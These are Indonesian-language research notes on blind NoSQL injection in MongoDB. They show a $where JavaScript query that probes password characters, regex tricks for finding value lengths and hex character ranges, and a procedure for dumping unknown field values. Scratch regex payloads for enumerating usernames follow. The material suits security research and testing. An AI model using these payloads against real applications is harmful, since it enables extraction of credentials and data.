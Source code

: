 ## Research Notes
### Semua catatan hasil eksplorasi lingkup MongoDB

1. di mongoDB itu ada function substr untuk memotong karakter, ex:
```
db.users.find({ 
    "$where": function() {
        (this.username.substr(0,1) > "x") && (this.password.substr(0,1) > "y") 
    }} 
)
```
jadi memungkinkan untuk dilakukan optimasi, syaratnya web yg vulnerable mengirim arbitrary JS pada parameternya

2. di mongoDB tidak perlu function ascii, karena dia mampu melakukan compare secara langsung dari setiap karakter, ex:
```
[
  {
    "thing": "alphabet"
  },
  {
    "thing": "bravo"
  },
  {
    "thing": "charlie"
  }
]

https://mongoplayground.net/p/WTnItnWx7D9.
```

3. MongoDB regex itu sama dengan regex JS / PHP PCRE (ref: https://www.oreilly.com/library/view/mongodb-the-definitive/9781449344795/ch04.html): 
   misal mau nyari apakah length nya itu >= 4 : http://regexr.com/79cmi, klo mau nyari exacth length cukup hapus aja "," koma nya
   dengan ability ini, memungkinkan penerapan binary search

4. funfact,undocumented feature regex mongodb itu bisa mencari rentang karakter dengan mempassing value dalam representasi hexadecimal dengan WAJIB prefix **\x** ^.[\x{HEX}-\x{HEX}]

5. untuk passing repr hexa via protocol http regex harus dirubah menjadi [\x{HEX VALUE}], kalau query langsung di mongodb bisa langsung [\xHEX VALUE]
### Approach untuk dump data tanpa diketahui sama sekali salah satu value col

1. cari prefix
2. cari length
3. cari index setelah prefix pke within regex
4. masih diprefix yg sama dipastikan lgi 


#### Coretan
$regex: /^(?!.*admin)(?!.*nando).*.{12}[\x{006b}-\x{006f}].*$/ 
^(?!.*abcdefghijklm).*a{1}[\x63-\x67].{7}(?!.{13}$).* = bkan abcdefghijklm, second char 63-67, pjg length bkan 13
^(?!.*abcdefghijklm)(?!.{13}$).*a.{5,}.*

^(?!.*abcdefghijklm)(?!.{13}$)(?!.*\badminxyz\b)(?!.8$).*a.* = ini regex buat include yg udah diexclude
^(?!.*jsmith)(?!.{6}$).*j([u])
^(?!.*\babcdefghijklm\b)(?!.{13}$)(?!.*\badminxxyz\b)(?!.{9}$).{6}[i].{0}

kasus dump abcdefghijklm
^a.{0}[b].{10} = kalau ada prefix
^.{1}[b].{11} = kalau g ada prefix
^abc([\x62-\x64]).{9}$ 
^(?!.*jsmith)(?!.{6}$)^j([a-s])
a bcdefghijklm

